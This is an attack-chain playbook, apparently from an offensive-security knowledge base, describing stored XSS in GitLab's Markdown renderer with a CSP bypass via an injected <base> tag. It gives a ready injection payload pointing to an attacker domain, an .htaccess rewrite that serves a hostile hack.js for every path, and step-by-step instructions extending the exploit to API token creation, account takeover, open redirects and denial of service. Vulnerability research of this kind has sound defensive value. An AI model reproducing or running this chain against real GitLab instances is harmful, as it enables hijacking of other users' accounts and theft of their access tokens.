

---
tags:
  - xss
  - stored-xss
  - csp-bypass
  - gitlab
  - markdown-injection
type: attack_chain
tools:
  - '[[tools/DevTools]]'
  - '[[tools/Web-Server]]'
  - '[[tools/Apache]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
  - Cloud (GitLab.com)
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Login-to-GitLab-and-Create-Issue]]'
  - '[[procedures/Inject-XSS-Payload-into-Issue-Description]]'
  - '[[procedures/Observe-Failed-Script-Loads-in-DevTools]]'
  - '[[procedures/Set-Up-Attacker-Web-Server-for-Script-Hosting]]'
  - '[[procedures/Trigger-XSS-Execution-via-Redirected-Loads]]'
step_count: 8
techniques:
  - '[[JavaScript]]'
  - '[[Drive-by Compromise]]'
  - '[[Compromise Client Software Binary]]'
updated_at: '2025-12-13T23:56:19.850Z'
description: >-
  A multi-stage attack exploiting a stored XSS vulnerability in GitLab's
  Markdown renderer, using a <base> tag to bypass CSP and redirect script loads
  to an attacker-controlled domain for arbitrary JavaScript execution.
skill_level: intermediate
impact_level: high
id: 217f942a-7d19-4509-96e7-29623d23f1ec
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Drive-by Compromise]]'
  - '[[Compromise Client Software Binary]]'
---
# Stored XSS in GitLab Markdown Rendering with CSP Bypass via Base Tag

Multi-stage attack chain demonstrating exploitation of a stored XSS in GitLab's syntax_highlight_filter.rb, allowing HTML injection in issue descriptions and wikis. The attack uses a <base> tag to redirect relative script loads to an attacker domain, bypassing CSP and enabling JavaScript execution for token creation, account takeover, open redirects, and potential DoS.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 8 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/DevTools]]
- [[tools/Web-Server]]
- [[tools/Apache]]

### Target Environment

- GitLab.com or self-hosted GitLab instance
- Valid user credentials for project access
- Attacker-controlled domain with web hosting

### Initial Access Requirements

- Logged-in user account on GitLab
- Network access to GitLab.com
- No prior admin privileges needed; affects viewers of injected content

## Detailed Attack Procedures

### Step 1: Login to GitLab and Create Issue
procedure: [[procedures/Login-to-GitLab-and-Create-Issue]]

**Objective**: Gain access to a project and prepare for payload injection.

**Instructions**: Log in with valid credentials and navigate to a project to create a new issue.

**Expected Output**: Access to the issues section with ability to create new issues.

**Success Indicators**:
- Successful login and project visibility
- New issue creation form available

### Step 2: Inject XSS Payload into Issue Description
procedure: [[procedures/Inject-XSS-Payload-into-Issue-Description]]

**Objective**: Store malicious HTML in the Markdown renderer to set up the <base> tag redirection.

**Instructions**: Enter the payload in the issue description field using [[commands/inject-base-tag-payload]]:

```html
<pre data-sourcepos="\"%22 href=\"x\"></pre><base href=https://joaxcar.com><pre x=\"\"><code></code></pre>
```

Replace `joaxcar.com` with your domain.

**Expected Output**: Payload stored without immediate errors.

**Success Indicators**:
- Payload saved in issue
- No sanitization errors on submission

### Step 3: Save Issue and Observe Failed Script Loads
procedure: [[procedures/Observe-Failed-Script-Loads-in-DevTools]]

**Objective**: Identify redirected script loads failing due to the <base> tag.

**Instructions**: Save the issue, reload the page, and use [[tools/DevTools]] to inspect network tab for failures like [[commands/observe-failed-script-load]]:

```url
http://joaxcar.com/assets/webpack/hello.4948f350.chunk.js
```

**Expected Output**: 404 errors on mimicked GitLab asset paths.

**Success Indicators**:
- Failed requests to attacker domain in network tab
- Confirmation of <base> tag influence

### Step 4: Set Up Attacker Web Server for Script Hosting
procedure: [[procedures/Set-Up-Attacker-Web-Server-for-Script-Hosting]]

**Objective**: Host scripts at paths matching GitLab's assets to capture and execute payloads.

**Instructions**: Create a script file with content from [[commands/host-alert-payload]] and configure redirection using [[commands/configure-htaccess-rewrite]]:

```apache
RewriteEngine on
RewriteCond %{REQUEST_URI} !^/hack.js$
RewriteRule .* /hack.js [L,R=302]
```

Place in .htaccess on your server.

**Expected Output**: Requests to any path redirect to hack.js.

**Success Indicators**:
- Server responds with JS payload
- Redirection works for test requests

### Step 5: Trigger XSS Execution via Redirected Loads
procedure: [[procedures/Trigger-XSS-Execution-via-Redirected-Loads]]

**Objective**: Reload the page to execute the injected JavaScript from the attacker domain.

**Instructions**: Reload the affected issue page; the <base> tag will redirect loads, executing [[commands/host-alert-payload]]:

```javascript
alert(document.domain)
```

**Expected Output**: Alert box displaying 'gitlab.com'.

**Success Indicators**:
- JavaScript alert fires
- Arbitrary code execution confirmed

### Step 6: Verify Additional Vectors and Gadgets

**Objective**: Test extended impacts like gadget chains for further exploitation.

**Instructions**: Inject advanced payloads using [[commands/test-multiple-xss-vectors]] and observe effects.

**Expected Output**: Multiple alerts or redirects.

**Success Indicators**:
- Additional XSS vectors trigger
- Gadget exploitation succeeds

### Step 7: Exploit for Token Creation and Takeover

**Objective**: Use executed JS to create tokens or takeover accounts.

**Instructions**: Extend the payload to interact with GitLab API via executed JS.

**Expected Output**: New tokens or session hijacking.

**Success Indicators**:
- API calls succeed from victim context
- Account access gained

### Step 8: Assess DoS and Redirect Impacts

**Objective**: Demonstrate denial of service on issues/MRs via injected content.

**Instructions**: Use payloads like [[commands/exploit-field-error-gadget]] to trigger unwanted behaviors.

**Expected Output**: POST requests or redirects on interaction with injected elements.

**Success Indicators**:
- DoS on page rendering
- Open redirects observed

## Attack Chain Summary

### Key Achievements

1. Bypassed CSP using <base> tag redirection in unpatched syntax_highlight_filter.rb
2. Achieved arbitrary JS execution in stored Markdown content
3. Enabled high-impact actions like account takeover and token theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Drive-by Compromise]]
- [[Compromise Client Software Binary]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
